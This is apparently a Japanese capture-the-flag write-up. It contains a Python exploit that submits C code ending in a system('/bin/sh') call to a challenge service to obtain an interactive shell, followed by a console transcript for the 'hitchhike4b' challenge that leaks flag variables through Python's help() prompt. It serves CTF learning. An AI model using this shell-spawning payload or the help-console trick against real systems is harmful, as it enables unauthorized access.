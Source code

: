 ```python
code += 'char* x4="\\xe3\\x82\\xa4\\xe3\\x83\\x81\\xe3\\x82\\xb8\\xe3\\x82\\xaf\\xe3\\x81\\xae\\xe3\\x82\\xbf\\xe3\\x83\\xab\\xe3\\x83\\x88";'
code += 'char* x12="\\x83\\x4a\\x83\\x75\\x83\\x67\\x92\\x8e";'
code += 'char* x19="\\x8e\\x87\\x97\\x7a\\x89\\xd4";'
code += 'char* x8="\\xe5\\xa4\\xa9\\xe4\\xbd\\xbf";'
code += 'char* x20="\\x94\\xe9\\x96\\xa7\\x82\\xcc\\x8d\\x63\\x92\\xe9";'
code += 'char* x6="\\xe7\\x89\\xb9\\xe7\\x95\\xb0\\xe7\\x82\\xb9";'
code += 'char* x25="\\x30\\xc9\\x30\\xed\\x30\\xed\\x30\\xfc\\x30\\xb5\\x30\\x78\\x30\\x6e\\x90\\x53";'
code += 'char* x21="\\x30\\x89\\x30\\x5b\\x30\\x93\\x96\\x8e\\x6b\\xb5";'
code += 'char* x3="\\xe5\\xbb\\x83\\xe5\\xa2\\x9f\\xe3\\x81\\xae\\xe8\\xa1\\x97";'
code += 'char* x14="\\x83\\x43\\x83\\x60\\x83\\x57\\x83\\x4e\\x82\\xcc\\x83\\x5e\\x83\\x8b\\x83\\x67";'
code += 'char* x26="\\x72\\x79\\x75\\x70\\x70\\xb9";'
code += 'char* x34="\\x2b\\x4d\\x4b\\x51\\x2d\\x2b\\x4d\\x4d\\x45\\x2d\\x2b\\x4d\\x4c\\x67\\x2d\\x2b\\x4d\\x4b\\x38\\x2d\\x2b\\x4d\\x47\\x34\\x2d\\x2b\\x4d\\x4c\\x38\\x2d\\x2b\\x4d";'
code += 'char* x36="\\x2b\\x63\\x6e\\x6b\\x2d\\x2b\\x64\\x58\\x41\\x2d\\x2b\\x63";'
code += 'char* x37="\\x2b\\x4d\\x4c\\x67\\x2d\\x2b\\x4d\\x4f\\x63\\x2d\\x2b\\x4d\\x4d\\x4d\\x2d\\x2b";'
code += 'void main(){system("/bin/sh");}'

def exploit():
        conn.sendlineafter(":\n",code)
        conn.interactive()

if __name__ == "__main__":
        exploit()
```


### hitchhike4b
SECCON 2021で苦しめられたhitchhike
一応リベンジはできた。。。

端的に言うと1つ目は\_\_main\_\_,2つ目は一つ目で得られたpythonファイル名を入力すると変数が得られる。

以下コンソールの対話
```
help> __main__
Help on module __main__:

NAME
    __main__

DATA
    __annotations__ = {}
    flag1 = 'ctf4b{53cc0n_15_1n_m'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py


help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
...

NAME
    app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc

DATA
    flag2 = 'y_34r5_4nd_1n_my_3y35}'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py

```